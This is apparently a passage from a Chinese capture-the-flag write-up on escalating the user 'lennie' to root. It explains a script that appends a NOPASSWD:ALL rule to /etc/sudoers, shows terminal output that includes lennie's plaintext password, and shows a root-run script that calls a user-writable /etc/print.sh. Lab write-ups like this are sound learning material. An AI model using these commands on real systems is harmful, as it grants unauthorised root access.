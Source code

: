 该脚本是一个 Bash 脚本，用于将一条文本追加到 `/etc/sudoers` 文件中。`/etc/sudoers` 文件是 Linux 系统中用于配置 `sudo` 命令的权限的重要文件。它规定了哪些用户可以以超级用户（root）的身份执行命令，以及是否需要输入密码。

让我们逐行解释该脚本的内容：

1. `#!/bin/bash`：这是一个 shebang（也称为 hashbang），用于指定脚本使用的解释器。在这里，它指定使用 Bash 解释器来执行该脚本。

2. `echo "lennie ALL=NOPASSWD:ALL" >> /etc/sudoers`：这是一个 `echo` 命令，它会输出文本内容并将其追加到 `/etc/sudoers` 文件中。在这里，它将字符串 `"lennie ALL=NOPASSWD:ALL"` 追加到 `/etc/sudoers` 文件的末尾。

解释字符串 `"lennie ALL=NOPASSWD:ALL"` 的含义：

- `lennie`：这是一个用户名，表示用户 `lennie`。
- `ALL`：这是一个主机名，表示所有主机。它指定该权限规则适用于所有主机。
- `NOPASSWD`：这是一个关键字，表示用户在执行 `sudo` 命令时不需要输入密码。
- `ALL`：这是一个命令名，表示所有命令。它指定该权限规则适用于所有命令。

因此，这条规则的含义是：用户 `lennie` 可以在所有主机上以任何用户的身份（即不需要密码）执行任何命令。请注意，修改 `/etc/sudoers` 文件是一个敏感的操作，因为错误的修改可能导致系统不稳定或不安全。在实际情况中，修改 `/etc/sudoers` 应该谨慎进行，并遵循正确的权限配置和备份策略。

这个sudo感觉很有礼貌？不像是系统原装的sudo。

```
lennie@startup:~/scripts$ sudo -l
sudo -l
sudo: unable to resolve host startup
[sudo] password for lennie: c4ntg3t3n0ughsp1c3

Sorry, user lennie may not run sudo on startup.
```

```
lennie@startup:~/scripts$ sudo cat /etc/shadow
sudo cat /etc/shadow
sudo: unable to resolve host startup
[sudo] password for lennie: c4ntg3t3n0ughsp1c3

lennie is not in the sudoers file.  This incident will be reported.
```

这也提示了我们应该修改sudoer文件。

```
lennie@startup:~$ cd scripts
cd scripts
lennie@startup:~/scripts$ ls -al
ls -al
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Aug  3 15:50 startup_list.txt
lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ ls -al /etc/print.sh
ls -al /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"
```
